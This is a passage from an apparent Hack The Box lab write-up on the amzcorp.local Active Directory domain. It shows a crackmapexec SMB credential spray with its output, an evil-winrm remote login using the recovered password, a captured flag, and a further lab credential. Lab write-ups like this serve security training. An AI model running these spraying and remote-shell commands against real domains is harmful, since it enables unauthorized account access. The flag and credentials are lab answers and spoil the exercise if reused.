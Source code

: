 Then use `crackmapexec` crack the credits
```
crackmapexec smb amzcorp.local -u users.txt -p passwords.txt --continue-on-success --no-bruteforce
SMB         amzcorp.local   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:amzcorp.local) (signing:True) (SMBv1:False)  
SMB         amzcorp.local   445    DC01             [-] amzcorp.local\jason:dE2*5$fG STATUS_LOGON_FAILURE 
SMB         amzcorp.local   445    DC01             [+] amzcorp.local\david:cGh#@0_gJ 
SMB         amzcorp.local   445    DC01             [-] amzcorp.local\olivia:dF4G0982#4%! STATUS_LOGON_FAILURE
```

Then we get `david:cGh#@0_gJ`
We can use this credit to connect with `evil-winrm`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/AWS]
└─$ evil-winrm -i amzcorp.local -u david -p cGh#@0_gJ
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\david\Documents> 

```

You can find another flag in the desktop of `david`
```
*Evil-WinRM* PS C:\Users\david\Documents> dir
*Evil-WinRM* PS C:\Users\david\Documents> dir ../Desktop


    Directory: C:\Users\david\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/23/2021   6:11 AM             72 flag.txt


*Evil-WinRM* PS C:\Users\david\Documents> type ../Desktop/flag.txt
AWS{h4ng_1n_th3r3_f0r_m0r3_cl0ud}

```

# Jerry-built
In addition to `david`'s `WinRM` credentials, `olivia`'s credentials are used to log into the sub-domain `workflow.amzcorp.local`
`olivia:dF4G0982#4%!`